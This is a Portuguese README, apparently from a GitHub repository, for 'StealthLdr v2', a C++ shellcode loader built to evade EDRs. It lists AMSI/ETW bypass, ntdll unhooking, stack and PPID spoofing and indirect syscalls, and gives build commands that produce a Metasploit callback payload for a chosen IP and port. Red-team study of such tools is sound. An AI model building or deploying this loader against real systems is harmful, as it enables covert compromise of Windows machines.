

<h1>StealthLdr - Advanced Shellcode Loader 2026</h1>

        
<h1>StealthLdr v2</h1>
        <h2>Advanced Shellcode Loader 2026</h2>

        
<strong>Loader stealth em C++</strong> com foco em evasão avançada contra EDRs modernos.

        

            <strong>⚠️ AVISO LEGAL:</strong> Este projeto é exclusivamente para fins educacionais, pesquisa e testes em ambientes de laboratório controlados (VMs isoladas). 
            Qualquer uso em sistemas sem autorização expressa é ilegal. Use com responsabilidade.
        

        <h2>Funcionalidades</h2>
        <ul>
            <li>Indirect Syscalls via <strong>SysWhispers4</strong></li>
            <li>AES-256-CBC encryption do shellcode</li>
            <li>Patchless AMSI + ETW Bypass</li>
            <li>Unhooking básico da ntdll</li>
            <li>Stack Spoofing</li>
            <li>PPID Spoofing</li>
            <li>Execução via Nt* functions indiretas</li>
            <li>Pipeline de build 100% automatizado</li>
        </ul>

        <h2>Como usar</h2>

        <h3>1. Clonar o repositório</h3>
        <pre><code>git clone https://github.com/sucloudflare/StealthLdr.git
cd StealthLdr</code></pre>

        <h3>2. Instalar dependências (Kali Linux)</h3>
        <pre><code>sudo apt update
sudo apt install metasploit-framework mingw-w64 git python3 python3-pip -y
pip3 install pycryptodome

# Iniciar banco do Metasploit
sudo systemctl start postgresql
sudo systemctl enable postgresql
sudo msfdb init</code></pre>

        <h3>3. Compilar o loader</h3>
        <pre><code>chmod +x build.sh

# Exemplo de uso
./build.sh SEU_IP 4444 nome_do_payload.exe</code></pre>

        <h3>Exemplos</h3>
        <pre><code># Usando porta padrão
./build.sh 192.168.1.100 4444 stealth_beacon.exe

# Ou com nome personalizado
./build.sh 10.10.13.37 443 meu_payload.exe</code></pre>

        <h3>4. Testar no Windows</h3>
        
Transfira os arquivos gerados para a máquina Windows e execute:

        <pre><code>stealth_beacon.exe shellcode.enc</code></pre>

        <h2>Estrutura do Projeto</h2>
        <ul>
            <li><code>build.sh</code> — Script de automação completo</li>
            <li><code>main.cpp</code> — Ponto de entrada</li>
            <li><code>evasion.cpp</code> — Bypass AMSI/ETW + Unhooking</li>
            <li><code>crypto.cpp + aes.c</code> — Encriptação AES-256</li>
            <li><code>spoofing.cpp</code> — Stack Spoofing</li>
            <li><code>injection.cpp</code> — Injeção via indirect syscalls</li>
            <li><code>syscalls.*</code> — Gerados automaticamente pelo SysWhispers4</li>
        </ul>

        <h2>Requisitos</h2>
        <ul>
            <li>Kali Linux (recomendado)</li>
            <li>metasploit-framework</li>
            <li>mingw-w64</li>
            <li>Python 3 + pycryptodome</li>
        </ul>

        <h2>Limitações</h2>
        
Não existe loader indetectável para sempre. EDRs evoluem rapidamente. Esta versão é destinada ao estudo e deve ser usada apenas em laboratório.

        

        <footer>
            Feito para estudo de <strong>Red Team</strong> e <strong>Offensive Security</strong>. 
            <strong>Use apenas em ambientes controlados e com autorização.</strong>  
            StealthLdr v2 • 2026
        </footer>
